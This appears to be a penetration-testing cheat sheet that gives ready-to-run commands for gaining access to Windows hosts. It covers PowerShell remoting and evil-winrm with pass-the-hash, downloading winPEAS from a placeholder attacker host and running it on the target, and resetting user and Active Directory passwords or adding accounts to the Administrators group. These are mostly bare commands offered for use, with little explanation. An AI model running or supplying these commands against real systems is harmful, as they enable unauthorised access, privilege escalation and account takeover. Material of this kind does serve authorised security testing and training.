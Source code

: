 ## Powershell Remoting

```powershell
# Find Powershell Remoting
$password = ConvertTo-SecureString "somepassword!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("user", $password)
Enter-PSSession -ComputerName 192.168.1.2 -Credential $cred
```

```bash
# Use evil WinRM to avoid PShell Remoting Sessions
# Functions: pass-the-hash, up-download, in-memory-loading 
# escape "!", because that of shell history
evil-winrm -i IP -u user -p "somepassword\!\!"
```

## Automate Enumeration

* Install `sudo apt install peass`
* Use `winPEAS` Windows Privilege Escalation Awesome Scripts
* Use `linPEAS` Linux Privilege Escalation Awesome Scripts

```bash
# Attacker
sudo cp /usr/share/peass/winpeas/winPEASx64.exe /var/www/html
```

```powershell
# Target
iwr -uri http://ATTACKER/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe log
```

More Tools

* Seatbelt `https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe`
* WinPEAS `https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS`
* JAWS `https://github.com/411Hall/JAWS`
* PEASS-NG `https://www.kali.org/tools/peass-ng/` ↩︎

## Modify (AD) User accoutns

* Use `net user` to change (AD) user passwords
* Use `PowerView.ps1` to change user passowrds

```powershell
# Change user password
net user username userpass 

# Add and delete users
net user /add username userpass
net user /del username

# Add and delete local Administrator group
net localgroup /add Administrator username
net localgroup /del Administrator username

# Change AD user password
$userpass=ConvertTo-SecureString 'password' -AsPlainText -Force
Set-DomainUserPassword -Identity andy -AccountPassword $userpass
```
